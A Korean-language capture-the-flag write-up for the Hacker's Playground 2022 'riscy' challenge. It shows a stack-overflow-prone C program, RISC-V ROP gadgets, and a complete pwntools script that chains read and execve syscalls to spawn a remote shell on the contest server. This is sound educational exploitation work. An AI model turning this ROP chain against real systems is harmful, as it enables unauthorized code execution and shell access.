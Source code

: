 ```yaml
---
layout: post
title: "[Hacker's Playground 2022] riscy"
subtitle: Hacker's playground 2022 riscy write-up
author: lcy8047
categories: write-up
banner:
  start_at: 8.5
  opacity: 0.618
  image: "https://ctftime.org/media/cache/78/783b179e1b440387e6f2df0a1673b141.png"
  background: "#000"
  height: "100vh"
  min_height: "38vh"
  heading_style: "font-size: 4.25em; font-weight: bold; text-decoration: underline"
  subheading_style: "color: gold"
tags: sstf riscy rop risc-v
sidebar: []
---
```


64bit RISC-V 에서 ROP를 하는 문제였다.

```cpp
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <err.h>

void start() {
  printf("IOLI Crackme Level 0x00\n");
  printf("Password:");

  char buf[32];
  memset(buf, 0, sizeof(buf));
  read(0, buf, 256);
  
  if (!strcmp(buf, "250382"))
    printf("Password OK :)\n");
  else
    printf("Invalid Password!\n");
}

int main(int argc, char *argv[])
{
  setreuid(geteuid(), geteuid());
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);

  start();

  return 0;
}
```

- password가 틀렸다고 바로 강제종료하지 않기 때문에, `strcmp`로 비교하는건 아무의미가 없었다.
- RISC-V의 `assembly`와, 함수 호출규약, `objdump`로 나온 결과에서 필요한 gadget들을 잘 찾는 것이 중요했다.

## 사용한 gadget

- 스택에 있는 데이터를 ra, a0, a1, a2, a7 레지스터에 쓸 수 있어야 해서 `objdump`로 나온 코드에서 정규표현식( ex.    `.*a0.*sp\)` )을 써서 찾았다.

``` text
   49714:   6562                    ld  a0,24(sp)
   49716:   70a2                    ld  ra,40(sp)
   49718:   6145                    addi  sp,sp,48
   4971a:   8082                    ret

   41782:   832a                    mv  t1,a0
   41784:   60a6                    ld  ra,72(sp)
   41786:   6522                    ld  a0,8(sp)
   41788:   65c2                    ld  a1,16(sp)
   4178a:   6662                    ld  a2,24(sp)
   4178c:   7682                    ld  a3,32(sp)
   4178e:   7722                    ld  a4,40(sp)
   41790:   77c2                    ld  a5,48(sp)
   41792:   7862                    ld  a6,56(sp)
   41794:   6886                    ld  a7,64(sp)
   41796:   2546                    fld fa0,80(sp)
   41798:   25e6                    fld fa1,88(sp)
   4179a:   3606                    fld fa2,96(sp)
   4179c:   36a6                    fld fa3,104(sp)
   4179e:   3746                    fld fa4,112(sp)
   417a0:   37e6                    fld fa5,120(sp)
   417a2:   280a                    fld fa6,128(sp)
   417a4:   28aa                    fld fa7,136(sp)
   417a6:   6149                    addi    sp,sp,144
   417a8:   8302                    jr  t1

   25db8:   00000073                ecall
   25dbc:   8082                    ret
```

## 풀이

```python
from pwn import *
import time

context(os='linux', arch='riscv', bits=64)

e = ELF('~/sstf2022/riscy/release/src/target')

r = remote('riscy.sstf.site', 18223)
p = "~/sstf2022/riscy/release/deploy"

#r = process([p+"/qemu-riscv64", "-g", "9000", p+"/target"])

sh = p64(0x6c000)
ecall_ret = p64(0x25db8)
main = p64(0x104ae)
gadget1 = p64(0x49714)
gadget = p64(0x41782)

# set "/bin/sh" in data area by read syscall
dummy = b"A"*(40)
payload  = dummy
payload += gadget1
payload += b"A"*24
payload += ecall_ret# next return addr
payload += b"A"*8
payload += gadget
payload += b"A"*8   # dummy
payload += p64(0)   # a0
payload += sh       # a1
payload += p64(10)  # a2
payload += p64(0)   # a3
payload += p64(0)   # a4
payload += p64(0)   # a5
payload += p64(0)   # a6
payload += p64(63)  # a7 ( syscall - read )
payload += main     # ra
payload += p64(0)   # fa0
payload += p64(0)   # fa1
payload += p64(0)   # fa2
payload += p64(0)   # fa3
payload += p64(0)   # fa4
payload += p64(0)   # fa5
payload += p64(0)   # fa6
payload += p64(0)   # fa7
print( "len : ", len( payload ) )

r.send( payload )
time.sleep(1)

r.send(b"/bin/sh\x00")

# run shell by execve syscall
dummy = b"A"*(40)
payload  = dummy
payload += gadget1
payload += b"A"*24
payload += ecall_ret# next return addr
payload += b"A"*8
payload += gadget
payload += b"A"*8   # dummy
payload += sh       # a0
payload += p64(0)   # a1
payload += p64(0)   # a2
payload += p64(0)   # a3
payload += p64(0)   # a4
payload += p64(0)   # a5
payload += p64(0)   # a6
payload += p64(221) # a7 ( syscall - execve )
payload += main     # ra
payload += p64(0)   # fa0
payload += p64(0)   # fa1
payload += p64(0)   # fa2
payload += p64(0)   # fa3
payload += p64(0)   # fa4
payload += p64(0)   # fa5
payload += p64(0)   # fa6
payload += p64(0)   # fa7
print( "len : ", len( payload ) )

r.send( payload )

r.interactive()
```

## 참고

[Linux kernel system calls table](https://marcin.juszkiewicz.com.pl/download/tables/syscalls.html)

system call table

[RISC-V Instruction Set Specifications - riscv-isa-pages documentation](https://msyksphinz-self.github.io/riscv-isadoc/html/index.html)

RISC-V instruction

[The RISC-V Linux User's Manual](https://www.ocf.berkeley.edu/~qmn/linux/riscv.html)

RISC-V manual

[command-not-found.com - riscv64-linux-gnu-objdump](https://command-not-found.com/riscv64-linux-gnu-objdump)

RISC-V objdump install

[Return-Oriented Programming on RISC-V - Part 1](https://infosecwriteups.com/return-oriented-programming-on-risc-v-part-1-dd9817b52d2b)

RISC-V에서 ROP

[Ports/riscv64](https://en.altlinux.org/Ports/riscv64)
